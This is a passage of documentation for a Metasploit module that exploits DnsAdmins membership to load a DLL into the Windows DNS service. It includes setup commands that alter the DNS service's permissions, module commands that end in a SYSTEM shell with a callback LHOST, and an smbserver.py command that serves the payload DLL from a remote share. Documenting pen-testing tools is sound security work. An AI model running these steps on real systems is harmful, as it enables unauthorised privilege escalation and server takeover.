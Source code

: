 You can confirm this by running `net localgroup DnsAdmins` and confirming that the new user is
listed as a member of this group in the output returned.
11. Run `wmic useraccount where name='*username of the new account*'` to get the SID of the
new account that you added in earlier.
12. Run `sc sdset "DNS" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CR;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWPDTLO;;;S-x-x-xx-xxxxxxxxxx-xxxxxxxxxx-xxxxxxxxx-xxxx)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)`
in an elevated command prompt replacing the sample SID with the SID obtained via the earlier command
(aka the SID of the new low privileged user you added).

## Verification Steps

1. Get a Meterpreter shell
2. `use exploit/windows/local/dnsadmin_serverlevelplugindll`
3. `set PAYLOAD <payload>`. Payload architecture must be the same as the target system
4. `set LHOST <lhost>`
5. `set LPORT <lport>`
6. `set SESSION <session_no>` to specify session
7. `set DLLNAME <dllname>` if you want to name your DLL something other than `msf.dll`
8. `set DLLPATH <dllpath>` if you want to place your DLL somewhere other than `%TEMP%` or if you want to use a UNC path
9. `set MAKEDLL true` if you want to just make the DLL, and not carry out the exploit
10. `exploit` to get SYSTEM shell if `MAKEDLL` is set to `false`, or to write
the DLL to the `~/.msf4/local` folder if `MAKEDLL` is set to `true`

## Options

### DLLNAME
Name of the DLL to use.

### DLLPATH
Location of the DLL to use. If a UNC path is provided, the module will assume that the operator
has already performed the following actions:
1. Set up a working SMB2 share (via a tool such as Impacket's `smbserver.py` via a command such as
`sudo python3 smbserver.py -smb2support -ip 172.17.168.195 test /home/gwillcox/.msf4/local/`
2. Created a DLL of the same architecture as the target system and placed in within this share.

### MAKEDLL
If set to `true`, then just create the DLL, do not conduct the full exploit.
The resulting DLL will be stored in the `~/.msf4/local` directory.

### AVTIMEOUT
Time, in seconds, to wait for any AV on the target system to potentially pick up on the
dropped DLL file, prior to the module checking to see if the DLL file still exists. This
is needed to prevent a scenario where the DLL file gets removed and the module tries to make
changes that could prevent the DNS server from being able to start.

## Scenarios
